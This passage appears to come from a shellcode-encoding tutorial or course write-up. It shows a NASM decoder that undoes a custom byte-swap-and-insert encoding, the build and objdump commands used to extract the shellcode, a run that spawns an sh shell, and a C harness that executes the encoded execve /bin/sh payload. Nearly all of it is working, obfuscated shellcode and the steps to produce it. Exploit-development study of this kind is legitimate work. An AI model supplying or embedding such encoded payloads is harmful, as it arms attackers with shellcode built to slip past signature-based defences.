 ```nasm
	mov cl,2			; location of next expected insert byte

decode:
	cmp byte [esi+ecx], 0x7f	; should another swap occur?
	jne done			; jump out of loop
	mov al, [esi+ecx-2]		; save first byte in pair
	mov bl, [esi+ecx-1]		; save second byte in pair
	mov [edi], bl			; swap byte
	mov [edi+1], al			; swap byte
	add ecx, 3			; the next 0x7f byte should be 3 bytes ahead
	add edi, 2			; memory offset for next swap save
	jmp short decode		; jump back to the beginning of the loop

done:
	jmp short EncodedShellcode

call_shellcode:
	call decoder
	EncodedShellcode: db 0xc0,0x31,0x7f,0x68,0x50,0x7f,0x2f,0x2f,0x7f,0x68,0x73,0x7f,0x2f,0x68,0x7f,0x69,0x62,0x7f,0x89,0x6e,0x7f,0x50,0xe3,0x7f,0xe2,0x89,0x7f,0x89,0x53,0x7f,0xb0,0xe1,0x7f,0xcd,0x0b,0x7f,0x7f,0x80,0x7f 
```

### Compiling, testing, and emmiting shellcode for use
```bash
[sengen@manjaro-x86 /]$ nasm -f elf32 ./swapsert-decoder.nasm -o swapsert-decoder.o
[sengen@manjaro-x86 /]$ ld -z execstack -N ./swapsert-decoder.o -o swapsert-decoder
```

Execute our assembly code to ensure we get our bash shell
```bash
[sengen@manjaro-x86 /]$ ./swapsert-decoder
sh-4.4$
```

We can now extract the shellcode bytes for use in our test C program
```bash
[sengen@manjaro-x86 /]$ objdump -d ./swapsert-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x28\x5e\x31\xdb\x31\xc9\xf7\xe1\x89\xf7\xb1\x02\x80\x3c\x0e\x7f\x75\x15\x8a\x44\x0e\xfe\x8a\x5c\x0e\xff\x88\x1f\x88\x47\x01\x83\xc1\x03\x83\xc7\x02\xeb\xe5\xeb\x05\xe8\xd3\xff\xff\xff\xc0\x31\x7f\x68\x50\x7f\x2f\x2f\x7f\x68\x73\x7f\x2f\x68\x7f\x69\x62\x7f\x89\x6e\x7f\x50\xe3\x7f\xe2\x89\x7f\x89\x53\x7f\xb0\xe1\x7f\xcd\x0b\x7f\x7f\x80\x7f"
```

Add our shellcode to our test C program and ensure it runs
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\xeb\x28\x5e\x31\xdb\x31\xc9\xf7\xe1\x89\xf7\xb1\x02\x80\x3c\x0e\x7f\x75\x15\x8a\x44\x0e\xfe\x8a\x5c\x0e\xff\x88\x1f\x88\x47\x01\x83\xc1\x03\x83\xc7\x02\xeb\xe5\xeb\x05\xe8\xd3\xff\xff\xff\xc0\x31\x7f\x68\x50\x7f\x2f\x2f\x7f\x68\x73\x7f\x2f\x68\x7f\x69\x62\x7f\x89\x6e\x7f\x50\xe3\x7f\xe2\x89\x7f\x89\x53\x7f\xb0\xe1\x7f\xcd\x0b\x7f\x7f\x80\x7f";

main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
